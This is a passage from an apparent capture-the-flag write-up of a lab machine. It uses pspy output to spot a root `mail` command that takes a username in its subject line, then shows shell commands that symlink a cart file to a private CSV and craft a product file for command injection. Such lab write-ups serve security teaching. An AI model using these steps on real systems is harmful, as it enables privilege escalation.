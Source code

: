     -rwxr-xr-x 1 root root 13731 Sep 15 20:09 shop.php
    drwxr-xr-x 6 root root  4096 Sep 15 20:09 static
    -rwxr-xr-x 1 root root   695 Sep 15 20:09 style.css
    

#### Processes

Nothing jumps out from the process list. I’ll run PSpy to look for any crons
that are running. I’ll remember before that leave requests are sent to
Christine. If I generate a leave request with `pspy64` running, processes
start:

    
    
    2022/10/05 04:57:15 CMD: UID=0    PID=3440   | mail -s Leave Request: christopher.jones christine 
    2022/10/05 04:57:15 CMD: UID=0    PID=3441   | /usr/sbin/sendmail -oi -f root@awkward -t 
    2022/10/05 04:57:15 CMD: UID=0    PID=3442   | /usr/sbin/postdrop -r 
    2022/10/05 04:57:15 CMD: UID=0    PID=3443   | cleanup -z -t unix -u -c 
    2022/10/05 04:57:15 CMD: UID=0    PID=3444   | trivial-rewrite -n rewrite -t unix -u -c 
    2022/10/05 04:57:15 CMD: UID=0    PID=3445   | local -t unix 
    2022/10/05 04:57:15 CMD: UID=33   PID=3446   | /bin/sh -c awk '/christopher.jones/' /var/www/private/leave_requests.csv 
    

It’s calling `mail` to send something to christine. The user’s name is in the
subject line, and is likely command injectable if I can get data into
`/private/leave_requests.csv`.

### Command Injection

#### Write to leave_requests.cve

To show that I can write to this file, I’ll first remove my cart and add it
back as a symlink to `leave_requests.csv`:

    
    
    bean@awkward:/var/www/store/cart$ ls
    8b80-fbfb-a3c-e97a
    bean@awkward:/var/www/store/cart$ ln -sf /var/www/private/leave_requests.csv 8b80-fbfb-a3c-e97a
    bean@awkward:/var/www/store/cart$ ls -l
    total 0
    lrwxrwxrwx 1 bean bean 35 Oct  5 05:41 8b80-fbfb-a3c-e97a -> /var/www/private/leave_requests.csv
    

I’ll build a malicious product. It must have the first line with `***Hat
Valley Product***`, and it’s the second line that gets added to the cart. I’ll
get that from `1.txt`, and then add my own description:

    
    
    bean@awkward:/var/www/store/product-details$ head -1 1.txt > 223.txt
    bean@awkward:/var/www/store/product-details$ echo '0xdf 0xdf' >> 223.txt 
    bean@awkward:/var/www/store/product-details$ cat 223.txt 
    ***Hat Valley Product***
    0xdf 0xdf
    

Now I’ll find the request in Burp to add an item to the cart, and send it to
Repeater. I’ll change the item number, and send:
